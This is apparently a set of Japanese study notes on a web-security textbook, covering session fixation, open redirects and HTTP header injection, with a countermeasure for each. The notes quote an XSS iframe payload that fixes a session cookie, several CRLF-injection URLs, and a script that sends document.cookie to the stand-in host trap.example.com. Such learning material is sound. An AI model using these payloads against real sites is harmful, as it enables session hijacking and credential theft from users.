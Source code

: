 # 徳丸本
- ## 4章 Webアプリケーションの機能別に見るセキュリティバグ(続き)
- ### 4.6 セッション管理の不備(続き)
- #### 4.6.3 URL埋め込みのセッションID
	- セッションIDをCookieではなく、URLに埋め込むようにしていると、RefererヘッダからセッションIDが漏洩する可能性がある
	- ただし、セッションIDが漏洩するためには、以下の2つの条件が必要である
		- サイト内に外部サイトへのリンク(=悪意を持ったサイトへのリンク)を作成出来る
		- Referrer-Policyをunsafe-urlなどにしている
			- [参考](https://developer.mozilla.org/ja/docs/Web/HTTP/Headers/Referrer-Policy)
			- Referrer-Policyを使うことで、Refererの送信を制限することが出来る(Referrer-PolicyのスペルはRefererではなく、Referrer)
			- レスポンス中のHTTPヘッダで制限する方法とHTMLで制限する方法がある
			- unsafe-urlは常にオリジン、パス、クエリパラメータをRefererとして送信する
			- デフォルトはstrict-origin-when-cross-originで、この場合、同一オリジンへのリクエストでしかクエリパラメータを送信しない
- #### 4.6.4 セッションIDの固定化(session fixation)
	- 攻撃者が用意したセッションIDを利用者に使わせる
	- 利用者が個人情報を入力すると、攻撃者がそれを見ることが出来る
	- セッションIDをURLに埋め込んでいるサイトの場合、攻撃が簡単
		- 利用者がURLを注意深く見ていたら失敗するが
		- 攻撃者がセッションID付きのURLを利用者に送信して、新規登録させる
			- セッションIDは攻撃者が用意する
		- 利用者が新規登録して、セッションIDに個人情報が紐づく
			- 新規登録が完了する前でも、入力画面と確認画面があった時、確認画面から入力画面に戻った時に入力値を復元するためにセッション変数を使っていると、session fixationが可能
		- セッションアダプションが有効なサイトの場合、攻撃者は適当なセッションIDを作れば良い(ABCとか何でも良い)
			- セッションアダプションとは、未知のセッションIDを受け入れるというもので、利用者が勝手に作ったセッションIDに情報を紐づける
				- PHPやASP.NETなどでセッションアダプションが有効になっている
			- セッションアダプションが有効でない場合、サーバが生成したセッションIDにしか情報を紐付けない
		- セッションアダプションが有効でないサイトの場合、攻撃者がサイトを閲覧して、有効なセッションIDを発行して、これを利用者に使わせる
			- といっても、[この記事](https://www.ubsecure.jp/blog/session_fixation)の図のように、サイトにアクセスしたタイミングでセッションIDが発行されるようになっていないと攻撃は成立しない
			- 新規登録してからセッションIDが発行される仕組みなら、既にそのセッションIDに攻撃者の情報が紐づいてしまうので、そのセッションIDを使った利用者はおかしいと思うはずなので
	- セッションIDをCookieで管理しているサイトの場合はXSSやHTTPヘッダインジェクションを利用する
		- XSSの場合は以下のようなiframeを埋め込む
			- ```html
			  <iframe width=320 height=100 src="http://example.jp?keyword=<script>
			  document.cookie='PHPSESSID=ABC'
			  </script>"></iframe>
			  ```
			- iframeは隠しておいて、サイト(http://example.jp)へのログインを促す
	- 対策
		- リクエスト中に含まれるセッションIDに情報を紐づけるのではなく、サーバ側で新たにセッションIDを生成し、これに情報を紐付け、このセッションIDをCookieにセットする(前のセッションIDは削除する)
		- トークンを利用する方法
		  id:: 64e19f0d-9e36-4788-8940-87cf0bc35d12
			- ↑が出来ない時(そんな時ある？)に使う
			- 新規登録したタイミングで、セッションIDに情報を紐付けるだけでなく、サーバでトークンを生成し、このトークンをセッション変数とCookieにセットする
			- 認証後のページはトークンを検証する
			- 攻撃者はトークンを知らないため、利用者の個人情報を見ることが出来ない
- ### 4.7 リダイレクト処理にまつわる脆弱性
- #### 4.7.1 オープンリダイレクト
  id:: 64e1a150-38ae-4857-9ce1-ca4d7d02bfbc
	- リダイレクトはLocationヘッダを使う方法と、JavaScriptを使う方法(location.href="...")がある
	- リダイレクト先を外部から指定できるようになっている(クエリパラメータなどで)と、個人情報を盗まれる可能性がある
		- リダイレクト先がオープンであるという意味で、オープンリダイレクト
	- 攻撃例
		- ログイン画面 → ログイン完了画面というページ遷移を考える
		- 普通なら、ログイン画面のformタグのactionでログイン完了画面を指定することでページ遷移を行うが、actionで指定した処理がLocationヘッダを返すことで、ログイン完了画面へのページ遷移を行う場合を考える
		- ログイン画面はクエリパラメータで遷移先のURLを受け取る
		- このURLをformタグで送信し、actionで指定した処理がLocationヘッダの値にセットする
		- 攻撃者はクエリパラメータのURLに罠サイトを指定して、これを利用者が閲覧するように仕向ける(`http://example.jp/login?url=http://trap.example.com`など）
		- 利用者がログイン画面でログインボタンを押すと、罠サイトに遷移する
		- 罠サイトは正規サイトのログイン失敗画面に似せて作る
		- 利用者はパスワードを間違えたと思って、再度IDとパスワードを入力してログインボタンを押す
		- この時に攻撃者のサーバにIDとパスワードが送られるようにする
		- さらに、正規サイトのログイン完了画面に遷移するようにしておけば、利用者は今度はログインが成功したと思い、気づかれにくくなる
	- 対策
		- リダイレクト先のURLを固定し、外部から指定出来ないようにする
		- やむを得ず、リダイレクト先を可変にしたい場合は、リダイレクト先のURLを直接指定せず番号指定にする
			- ページ番号のURLの対応表は外部から見えないファイルやデータベースで管理する
		- 番号指定にしたくない時は、リダイレクト先のドメイン名を検証する
			- 検証漏れが多いので注意
			- 例えば、URLが`http://example.jp/`から始まっていたらOKとすると、HTTPヘッダインジェクションで回避される
	- 外部ドメインにリダイレクトする場合は、クッションページを用意すると、被害を抑えられる
		- クッションページがないと、正規サイトに似せて作った罠サイトが作られていると、リダイレクトしても、まだ正規サイト内にいると思ってしまうため
- #### 4.7.2 HTTPヘッダ・インジェクション
	- 外部からのパラメータを元にHTTPヘッダとして出力していると、HTTPヘッダ・インジェクションが発生する
	- 外部ドメインへのリダイレクト、任意のCookie生成、偽画面の表示といった攻撃が可能
	- 外部ドメインへのリダイレクト
		- オープンリダイレクトで説明した、遷移先のURLをクエリパラメータで受け取るログイン画面(`http://example.jp/login?url=...`)を考える
		- URLの検証を行なっていて、`http://example.jp/`で始まっていない場合はエラーとする
		- しかし、`http://example.jp/login?url=http://example.jp/%0D%0ALocation:+http://trap.example.com`にアクセスすると、検証をクリアし、http://trap.example.comにリダイレクトしてしまう
		- `%0D%0A`はCRLFを意味していて、これによってプログラムは2行のLocationヘッダを出力する
			- ```
			  Location: http://example.jp/
			  Location: http://trap.example.com
			  ```
		- Apacheはプログラムから複数のLocationヘッダを受け取った時、最後のLocationヘッダのみをレスポンスとして返す
	- 任意のCookie生成
		- `http://example.jp/login?url=http://example.jp/%0D%0ASet-Cookie:+PHPSESSID=ABC`にアクセスすると、Cookieがセットされる
		- session fixationに利用する
	- 偽画面の表示
		- `%0D%0A`を2回連続させることで、その後の文字列がレスポンスボディと見做される
		- 正規サイトのコンテンツも一緒に表示されてしまうが、CSSで隠すことが出来る
		- 偽のフォームを作成して個人情報を盗むことが出来る
			- ドメインは正規のものであるため信用してしまう可能性がある
		- JavaScriptを実行してCookieを盗んだり出来る
			- `?url=http://example.jp/%0D%0A%0D%0A<script>fetch('http://trap.example.com?sid='%2Bdocument.cookie)</script>`など
	- 対策
		- 外部からのパラメータをレスポンスヘッダとして出力しない
		- LocationヘッダやSet-Cookieヘッダの出力を専用APIに任せる
			- Ginの場合、ctx.Redirectやctx.SetCookieなど
			- 中身の処理がどうなっているのか後で調べる
	- HTTPヘッダ・インジェクションに関連して、HTTPレスポンス分割攻撃というのがある([参考](http://www.techmatrix.co.jp/product/jtest/security/httpresponsesplitting.html))
		- HTTP/1.1では複数のリクエストをまとめて送信することが出来て、この場合レスポンスもまとめて返される
		- 1つ目のリクエストでHTTPヘッダ・インジェクションをして、偽のコンテンツを2つ目のリクエストに対するレスポンスとして誤認させ、キャッシュサーバに偽コンテンツをキャッシュさせる(キャッシュ汚染)
